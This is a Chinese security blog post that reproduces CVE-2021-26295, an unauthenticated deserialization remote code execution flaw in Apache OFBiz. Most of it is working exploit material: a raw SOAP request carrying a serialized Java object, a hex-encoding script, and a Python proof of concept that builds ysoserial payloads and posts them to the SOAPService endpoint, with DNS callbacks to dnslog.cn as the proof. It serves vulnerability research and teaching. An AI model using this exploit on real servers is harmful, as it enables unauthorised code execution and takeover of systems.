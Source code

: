 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/ULNyg_ZRk_Tnnk3e8Qze4w)

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjcGZNvYX4vYm5985EI4rQ0giaNkx7icwRlqicRHnBfPIzWEz7oPnOiczqj8PmDYMsaKxPpSgNBwbfvygw/640?wx_fmt=png)

Apache OFBiz rmi 反序列化 (CVE-2021-26295) 复现

一、漏洞描述

Apache OFBiz 存在 RMI 反序列化前台命令执行，未经身份验证攻击者可构造恶意请求，触发反序列化，从而造成任意代码执行，控制服务器。

二、影响范围

Apache OFBiz：<17.12.06

三、环境搭建 & 漏洞复现

```
docker run -d -p 8000:8080 -p 8443:8443  opensourceknight/ofbiz
```

拉取镜像

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjcGZNvYX4vYm5985EI4rQ0gqNpyQPFUhvz2kiakIDtmPgXmVrw0xp6JAfwL3XSzH87SOpVfWU2vuAQ/640?wx_fmt=png)

漏洞复现：  

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjcGZNvYX4vYm5985EI4rQ0g0SOVPrufEOk340Gh512QHvwoEJ37WQIrD3SlZUauDV88ic0gV8LNuzg/640?wx_fmt=png)

encode 脚本：  

```
import binascii
filename = 'thelostworld.ot'
with open(filename, 'rb') as f:
   content = f.read()
print(binascii.hexlify(content))
```

POC：  

```
POST /webtools/control/SOAPService HTTP/1.1
Host: 192.168.0.115:8443
Content-Type: application/xml
Content-Length: 831

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
    <soapenv:Header/>
    <soapenv:Body>
    <ser>
    <map-HashMap>
        <map-Entry>
            <map-Key>
                <cus-obj>aced00057372000c6a6176612e6e65742e55524c962537361afce47203000749000868617368436f6465490004706f72744c0009617574686f726974797400124c6a6176612f6c616e672f537472696e673b4c000466696c6571007e00014c0004686f737471007e00014c000870726f746f636f6c71007e00014c000372656671007e00017870ffffffffffffffff7400177478663737372e7234343976762e646e736c6f672e636e74000071007e0003740004687474707078</cus-obj>
            </map-Key>
            <map-Value>
                <std-String value="http://noxj3z.dnslog.cn"/>
            </map-Value>
        </map-Entry>
    </map-HashMap>
    </ser>
    </soapenv:Body>
    </soapenv:Envelope>
```

```
python3 OFBizPoc.py "https://192.168.0.115:8443/" "http://68zfh0.dnslog.cn"
```

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjcGZNvYX4vYm5985EI4rQ0gNIlYO6c79Zpuyap1XyD0CtHLR78QEWRA0Hw3cbia4ibxEsNreZO98ELw/640?wx_fmt=png)

脚本：Powered by 0x141 Team ShimizuKawasaki

```
import requests
import sys
import subprocess
from urllib3.exceptions import InsecureRequestWarning


def trans(s):
    return "%s" % ''.join('%.2x' % x for x in s)

if __name__ == '__main__':
  print('''

=========================================
  ____  ______ ____  _       _____   ____   _____ 
 / __ \|  ____|  _ \(_)     |  __ \ / __ \ / ____|
| |  | | |__  | |_) |_ ____ | |__) | |  | | |     
| |  | |  __| |  _ <| |_  / |  ___/| |  | | |     
| |__| | |    | |_) | |/ /  | |    | |__| | |____ 
 \____/|_|    |____/|_/___| |_|     \____/ \_____|
                                                           
    Powered by 0x141 Team ShimizuKawasaki
=========================================

    ''')
  host = sys.argv[1]
  comForKey = sys.argv[2]
  popen = subprocess.Popen(['java','-jar', 'ysoserial.jar', "URLDNS", comForKey], stdout=subprocess.PIPE)
  data = popen.stdout.read()
  if len(data) == 0:
    print("请在当前脚本目录放置ysoserial.jar!")
  else :
    hex_data = trans(data)
    headers = {'Content-Type': 'text/xml'}
    post_data = '''<?xml version='1.0' encoding='UTF-8'?><soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"><soapenv:Header/><soapenv:Body><ns1:clearAllEntityCaches xmlns:ns1="http://ofbiz.apache.org/service/"><ns1:cus-obj>%s</ns1:cus-obj></ns1:clearAllEntityCaches></soapenv:Body></soapenv:Envelope>''' % hex_data
    requests.packages.urllib3.disable_warnings(category=InsecureRequestWarning)
    res = requests.post('%s/webtools/control/SOAPService' % host , data = post_data , headers = headers , verify=False)
    if  res.status_code == 200 :
      print("已经测试完成,请检查你的dnslog: " + comForKey)
  
```

参考：

[https://mp.weixin.qq.com/s/s2glEvy-jrD1CDzuOCGbbg](https://mp.weixin.qq.com/s?__biz=Mzg4MDU2Njc2MQ==&mid=2247484164&idx=1&sn=d62949ca29cb250cb53b5ba5b966cb2c&scene=21#wechat_redirect)

[https://mp.weixin.qq.com/s/XT2P6vB8e2pDp3_Dulfzhw](https://mp.weixin.qq.com/s?__biz=Mzg3NDU2MTg0Ng==&mid=2247484161&idx=1&sn=77f2676ef82af1aac2c4557871950462&scene=21#wechat_redirect)

免责声明：本站提供安全工具、程序 (方法) 可能带有攻击性，仅供安全研究与教学之用，风险自负!

转载声明：著作权归作者所有。商业转载请联系作者获得授权，非商业转载请注明出处。

订阅查看更多复现文章、学习笔记

thelostworld

安全路上，与你并肩前行！！！！

![](https://mmbiz.qpic.cn/mmbiz_jpg/uljkOgZGRjeUdNIfB9qQKpwD7fiaNJ6JdXjenGicKJg8tqrSjxK5iaFtCVM8TKIUtr7BoePtkHDicUSsYzuicZHt9icw/640?wx_fmt=jpeg)

个人知乎：https://www.zhihu.com/people/fu-wei-43-69/columns

个人简书：https://www.jianshu.com/u/bf0e38a8d400

个人 CSDN：https://blog.csdn.net/qq_37602797/category_10169006.html

个人博客园：https://www.cnblogs.com/thelostworld/

FREEBUF 主页：https://www.freebuf.com/author/thelostworld?type=article

语雀博客主页：https://www.yuque.com/thelostworld

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjcW6VR2xoE3js2J4uFMbFUKgglmlkCgua98XibptoPLesmlclJyJYpwmWIDIViaJWux8zOPFn01sONw/640?wx_fmt=png)

欢迎添加本公众号作者微信交流，添加时备注一下 “公众号”  

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjcSQn373grjydSAvWcmAgI3ibf9GUyuOCzpVJBq6z1Z60vzBjlEWLAu4gD9Lk4S57BcEiaGOibJfoXicQ/640?wx_fmt=png)